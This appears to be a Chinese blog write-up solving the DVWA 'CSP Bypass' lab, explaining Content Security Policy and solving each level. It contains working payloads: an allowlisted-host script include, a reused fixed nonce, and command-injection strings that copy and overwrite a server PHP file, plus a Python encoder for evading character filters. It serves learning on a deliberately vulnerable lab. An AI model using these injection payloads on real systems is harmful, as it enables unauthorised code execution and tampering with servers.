 ```yaml
---
title: DVWA上手记录-CSP BYPASS
slug: get-start-dvwa-12
date: 2022-04-29 12:00:00
categories:
- security
tags:
- security
- dvwa
---
```


## 前言

终于，DVWA快要打通关了。OWASP 2021 的 Top 10 里已经看不到 CSP 了。可能是合并到了 Injection 里，XSS也合并到 Injection 里了。一个 Injection 总结各种注入还是挺精辟的。

直接开干吧。

## 原理

CSP 是 *Content Security Policy* ，一种降低 XSS 攻击面的技术。简单概括下就是一种同源策略的扩展，用以约束 `<script src="..."`、`<img src="..."` 这样的外部来源。

比如说，设置 `Content-Security-Policy: script-src 'self'` 就会约束脚本`src`必须和当前页面同源。

`Content-Security-Policy` 支持的策略非常多，懒得一一列举了，常见的有 `default-src` 、`script-src` 这些。

## 解题

### Low：收集信息

![image-20220429091729687](image-20220429091729687.png)

看介绍，直接填一个脚本链接，脚本会被包含进这个页面。尝试启动一个 http 服务器然后填入。

![image-20220429091905350](image-20220429091905350.png)

```
Refused to load the script 'http://172.17.0.1:8000/1.js' because it violates the following Content Security Policy directive: "script-src 'self' https://pastebin.com hastebin.com www.toptal.com example.com code.jquery.com https://ssl.google-analytics.com". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback.
```

设置了`script-src`策略，注意到策略里允许了 `pastebin`、`hastebin`、`toptal` 这些网站。

### Low：解题

在 `hastebin.com` 写一句 `alert(1)` ，保存并取纯文本链接，然后贴到这里。

![image-20220429092314962](image-20220429092314962.png)

成功。

### Medium：收集信息

![image-20220429092433248](image-20220429092433248.png)

提示不管写什么都会直接丢到这里，看你能不能弹出个`alert`。

尝试写一个`<script>alert(1)</script>`，发现出错：

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='". Note that 'unsafe-inline' is ignored if either a hash or nonce value is present in the source list.
```

提示CSP禁止了inline脚本，但后面备注`unsafe-inline`会在源列表里有`hash`和`nonce`的情况下忽略。

### Medium：解题

尝试在 payload 上加上 `nonce`：`<script nonce>alert(1)</script>`，错误不变。

加上 `src`，随便选一个真实存在的 js：`<script src="/dvwa/js/dvwaPage.js" nonce>alert(1)</script>`，错误消失。但脚本没有执行。无奈看了下帮助，提示注意 CSP 的 `nonce` 策略。于是翻了下请求历史，发现 `nonce` 不变。

于是修改 payload，`nonce` 设置为固定值：`<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>`

![image-20220429093610302](image-20220429093610302.png)

需要注意的是 `nonce-` 这个前缀不用放到 `script` 标签的 `nonce` 里。

### High：收集信息

![image-20220429093750904](image-20220429093750904.png)

点击`Solve the sum`后：

![image-20220429093808724](image-20220429093808724.png)

提示是修改指定的页面来运行自己的代码，怪。这要怎么做？没思路了，看一眼帮助，并没有帮助。

这一次的 `Content-Security-Policy`是`script-src 'self'`，点击`Solve the sum`产生请求`jsonp.php?callback=solveSum`。返回结果是一个 js 脚本。审阅代码没有包含 `jsonp.php` 的内容。

好吧。先试试请求 `jsonp.php`，改一下`callback`参数，请求`http://localhost:8080/vulnerabilities/csp/source/jsonp.php?alert`。结果返回一个空页面，没有js。所以提示还是对的，只能改`jsonp.php`文件完成High难度。

改法可以很简单=。=我们先拿命令注入提取出`jsonp.php`文件，方便下载。

```
n|cp /var/www/html/vulnerabilities/csp/source/jsonp.php /var/www/html/jsonp.txt
```

然后访问`/jsonp.txt`拿到内容：

```php
<?php
header("Content-Type: application/json; charset=UTF-8");

if (array_key_exists ("callback", $_GET)) {
	$callback = $_GET['callback'];
} else {
	return "";
}

$outp = array ("answer" => "15");

echo $callback . "(".json_encode($outp).")";
?>
```

emm，没什么特别的，接着看下前端怎么处理 `jsonp.php` 返回的内容。

```js
function clickButton() {
    var s = document.createElement("script");
    s.src = "source/jsonp.php?callback=solveSum";
    document.body.appendChild(s);
}

function solveSum(obj) {
    if ("answer" in obj) {
        document.getElementById("answer").innerHTML = obj['answer'];
    }
}

var solve_button = document.getElementById ("solve");

if (solve_button) {
    solve_button.addEventListener("click", function() {
        clickButton();
    });
}
```

重点来了：

```js
var s = document.createElement("script");
s.src = "source/jsonp.php?callback=solveSum";
document.body.appendChild(s);
```

直接把 `jsonp.php` 返回的内容当成了 `script` 标签的内容，也就是在 `jsonp.php` 返回随便什么东西前端都会执行。

那下一步就容易了，利用命令注入漏洞注入一个新的 php 标签，并输出 `alert`。先写一个脚本把脚本编码成`printf` 接受的8进制转义。

```python
encoded = ''
payload = '<?php echo \'alert(1)\'; ?>'
for c in payload:
    if c in '()&|-$`;\'':
    	encoded += '\\0{:o}'.format(ord(c))
    else:
        encoded += c
```

得到结果之后，变形一下payload：`127.0.0.1|printf '<?php echo \047alert\0501\051\047\073 ?>'>>/var/www/html/jsonp.txt`。执行后检查：

![image-20220429103150056](image-20220429103150056.png)

再真正注入到 `jsonp.php` 里。`127.0.0.1|printf '<?php echo \047alert\0501\051\047\073 ?>'>>/var/www/html/vulnerabilities/csp/source/jsonp.php`，返回后发现有语法错误。

![image-20220429103315118](image-20220429103315118.png)

是我大意了=。=算了，直接覆盖掉 `jsonp.php` 完事。`127.0.0.1|printf '<?php echo \047alert\0501\051\047\073 ?>'>/var/www/html/vulnerabilities/csp/source/jsonp.php`

![image-20220429103448845](image-20220429103448845.png)

成功。

## 总结

一定要总结的话就是确实有黑客思维这回事。题目并不是真的在考一个固定知识点，虽然是在CSP题，但真正的关键工作是在命令注入完成的，只是观察CSP这个页面的话是什么也干不成的，即使没有 CSP 干瞪着这个页面也干不成，就算有创建`script`标签设置内容的`js`也利用不到。

但抱怨还是有抱怨的。因为我通关DVWA的目的是学习=。=CSP的 High 难度选择用命令注入当突破口，对了解 CSP 本身就没啥用了，命令注入本身可以干的事情就远不止弄死一个 CSP 这么点=。=

总之，也行吧。多少对 CSP 有点了解了。



